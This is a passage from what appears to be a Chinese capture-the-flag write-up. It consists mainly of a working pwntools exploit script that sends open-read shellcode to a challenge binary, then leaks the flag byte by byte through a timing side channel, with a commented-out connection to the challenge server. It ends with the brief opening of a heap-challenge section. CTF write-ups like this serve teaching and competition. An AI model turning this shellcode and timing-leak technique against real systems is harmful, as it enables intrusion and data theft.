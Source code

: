 **<a class="reference-link" name="EXP"></a>EXP**

```
import time
from pwn import *
context.log_level = "ERROR"
context.arch = "amd64"
flag = "flag`{`"
for i in range(len(flag), 0x20):
    l = 0
    r = 127
    while l &lt; r:
        mid = (l + r) &gt;&gt; 1
        sh = process('./chall')
        # sh = remote('47.104.169.149', 25178)
        mmap = 0x10000
        orw_payload = "open:" + shellcraft.open('./flag')
        orw_payload += '''cmp ax, 0x15
               jne open
               mov rdi, rax
               xor rax, rax
               mov cl, 0xff
               mov esi, ecx
               mov edx, esi
               syscall
               loop:
               mov al, [rdx + %d]
               cmp al, %d
               ja loop
               ''' % (i, mid)
        shellcode = asm(orw_payload)
        sh.sendafter('======== Input your secret code ========', shellcode)
        st = time.time()
        try:
            while True:
                cur = sh.recv(timeout=0.01)
                if time.time() - st &gt; 0.05:
                    l = mid + 1
                    break
        except EOFError:
            r = mid
        sh.close()
    flag += chr(l)
    print flag
```

### <a class="reference-link" name="normal-babynote"></a>normal-babynote

非常典型的菜单堆题，又被打成了签到题。

[![](https://p0.ssl.qhimg.com/t0135049138727c2226.png)](https://p0.ssl.qhimg.com/t0135049138727c2226.png)
